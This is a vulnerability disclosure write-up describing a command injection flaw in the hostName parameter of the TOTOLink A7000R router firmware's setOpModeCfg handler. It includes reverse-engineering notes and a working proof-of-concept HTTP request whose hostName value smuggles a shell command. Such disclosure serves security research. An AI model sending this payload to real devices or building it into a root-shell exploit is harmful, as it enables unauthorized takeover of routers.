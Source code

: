 # TOTOLink A7000R V9.1.0u.6115_B20201022 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

### Product Information

TOTOLink A7000R V9.1.0u.6115_B20201022 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK A7000R (V9.1.0u.6115_B20201022) was found to contain a command insertion vulnerability in setOpModeCfg.This vulnerability allows an attacker to execute arbitrary commands through the "hostName" parameter.

![image-20220719225606059](img/image-20220719225606059.png)

![image-20220719225916336](img/image-20220719225916336.png)

![image-20220719231241544](img\image-20220719231241544.png)

By calling these functions, we can ultimately call `sub_423970` function (as shown in the last picture). By setting the proto value to 1, we can reach the default branch.`V50` passes directly into the `dosystem` function.

![image-20220719205544791](img/image-20220719205544791.png)

The `dosystem` function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the `system` function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 52
Origin: http://192.168.0.1
DNT: 1
Connection: close
Cookie: SESSION_ID=2:1658224702:2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"hostName":"admin';ps #","proto":"1","opmode":"br","topicurl":"setOpModeCfg"}
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
